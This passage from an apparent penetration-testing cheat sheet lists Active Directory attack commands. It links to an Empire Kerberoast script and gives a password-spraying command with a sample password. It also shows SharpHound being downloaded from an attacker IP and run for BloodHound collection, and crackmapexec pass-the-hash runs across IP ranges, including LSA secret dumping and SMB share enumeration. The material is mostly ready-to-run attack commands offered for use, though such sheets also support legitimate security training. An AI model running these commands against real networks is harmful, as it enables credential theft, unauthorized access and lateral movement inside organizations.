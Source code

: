 or  

- https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

## Password Spraying
```powershell
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```
- https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

## Enumeration - BloodHound
-> Install - Attacker VM
```bash
sudo apt install bloodhound
```

-> neo4j start - http://localhost:7474/
```bash
sudo neo4j start
```

-> Enumeration - Windows
```powershell
iwr -uri <ip>/SharpHound.ps1 -Outfile SharpHound.ps1
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```

## Access Validation 
-> Validation of network user credentials via smb using crackmmapexec  
```bash
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> --continue-on-success
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> 
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> --local-auth --lsa  
crackmapexec smb 192.168.0.10-20 -u administrator -p <password>
```

-> Connect via smbclient
```bash
smbclient //ip -U <user> -L
```

-> smbmap
```bash
smbmap -H <ip> -u <user> 
```

-> See read permission of given user on smb shares
```bash
crackmapexec smb <IP> --shares -u <user> -p '<pass>'
```

